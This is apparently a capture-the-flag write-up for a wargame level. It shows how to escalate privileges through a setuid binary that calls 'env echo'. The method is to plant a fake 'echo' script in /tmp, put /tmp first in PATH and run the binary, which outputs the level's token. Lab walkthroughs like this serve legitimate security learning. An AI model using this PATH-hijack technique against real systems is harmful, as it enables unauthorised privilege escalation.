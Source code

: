 # Level 03

A binary file can be found in the user directory.

```bash
ls -l
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

We can see that it has special permissions. These permissions mean that it is a **setuid** and **setgid** binary. Any call made by a setuid binary will use that uid permissions for its calls. Using "ltrace ./level03" we can see that it calls "/usr/bin/env echo".

By writing a fake `echo` binary and changing the PATH to force its use we can make any calls we like with the permissions of the uid set in the binary. Some info [here](https://www.riccardoancarani.it/exploting-setuid-setgid-binaries/).

```bash
echo '/bin/getflag' > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
./level03
# Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

